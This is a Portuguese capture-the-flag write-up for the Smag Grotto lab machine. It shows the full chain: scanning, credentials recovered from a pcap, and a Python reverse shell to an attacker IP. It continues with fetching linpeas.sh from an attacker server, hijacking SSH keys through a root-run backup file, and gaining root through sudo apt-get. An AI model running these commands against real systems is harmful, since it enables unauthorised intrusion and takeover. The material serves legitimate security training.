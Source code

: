 # _**Smag Grotto CTF**_
![](groto.jpg)

## _**Enumeração**_
Primeiro, vamos começar com um scan <mark>Nmap</mark>
> ```bash
> nmap -p 0-9999 -A -T5 [ip_address]
> ```
![](scan_nmap.jpg)

Parece que temos um website, vamos visitar  
Apenas um simples website  
Vamos tentar um _brute force_ de diretórios com <mark>Gobuster</mark>
> ```bash
> gobuster dir --url [ip_address] -w ../seclists/Discovery/Web-Content/common.txt
> ```
![](scan_gobuster.jpg)

Temos um diretório promissor: **e-mail**  
Vamos investigar  
Parece que temos algumas mensagens de e-mail relatando a migração de rede e a falha no _download_ de um arquivo  
É relatado também ser necessário realizar download do arquivo via ```wget```  
Clicando no arquivo, conseguimos download, se trata de um arquivo _.pcap_  
Arquivos _.pcap_ são arquivos padrão utilizados em scanners de rede como Wireshark  
Vamos abrir este arquivo  
Investigando os pacotes HTTP, encontramos um usuário e senha  

![](pcap_wireshark.jpg)

Além disso, este pacote está sendo enviado para: <mark>development.smag.thm/login.php</mark>  
Para podermos acessar este domínio, precisamos alterar nosso arquivo _/etc/hosts_  

![](etc_hosts.jpg)  

Temos duas áreas para realizar login, vamos tentar ambas  
Ambas levam a mesma página e dão login como sucesso  

![](command_page.jpg)  

Vamos começar testando alguns comandos  
Após alguns testes, parece que deve aceitar diversos comandos, mas não existe nenhum resultado visual  
Tentando obter uma shell com o comando abaixo  
> ```bash
> python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("[ip_address]",[port]));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
> ```
![](shell_success.jpg)

Obtemos uma shell!  
Vamos melhorar ela com ```python3 -c 'import pty, os; pty.spawn("/bin/bash")'```  

## _**Ganhando acesso**_
Primeiro, vamos investigar um pouco  
Após um tempo procurando algum arquivo explorável com alguns comandos básicos, foi decidido usar o programa <mark>LinPeas</mark> para essa tarefa  
Primeiro, ligamos nosso servidor HTTP com: ```python3 -m http.server 8080```
Em seguida, na máquina-alvo, buscamos com: ```curl http://[ip_address]:[port]/linpeas.sh -o /tmp/linpeas.sh```; obs: com ```wget``` estava dando erro  
Damos as permissões necessárias e em seguida, executamos  

![](bkp_ssh.jpg)

Este arquivo parece estar sendo executado como _root_, copiando o conteúdo de _/opt/.backups/jake_id_rsa.pub.backup_ para as chaves de **jake**  
Podemos realizar o seguinte:
* em nossa máquina
> ```bash
> ssh-keygen -t rsa -b 4096
> ```
Siga as etapas para criar a chave privada e a chave pública

> ```bash
> python3 -m http.server 8080
> ```

* na máquina-alvo
> ```bash
> wget http://[ip_address]:[port]/pub_key_name.pub -o /tmp/pub_key_name.pub
> cat pub_key_name.pub > /opt/.backups/jake_id_rsa.pub.backup
> ```
Espere 1 minuto e realize login via SSH com: ```ssh -i priv_key_name jake@[ip_address]```  

![](jake_login.jpg)  

## _**Escalando privilégios**_
Vamos começar com alguns comandos básicos como ```sudo -l```  
Parece que temos algo promissor após ver a seguinte linha:  **(ALL : ALL) NOPASSWD: /usr/bin/apt-get**  
Investigando por comandos para obter _root_, cheamos no seguinte:
> ```bash
> sudo apt-get -o APT::Update::Pre-Invoke::="/bin/bash" update
> ```
Esse comando executa /bin/bash como root antes da atualização de pacotes  

![](root.jpg)

Agora, basta ir atrás das flags!
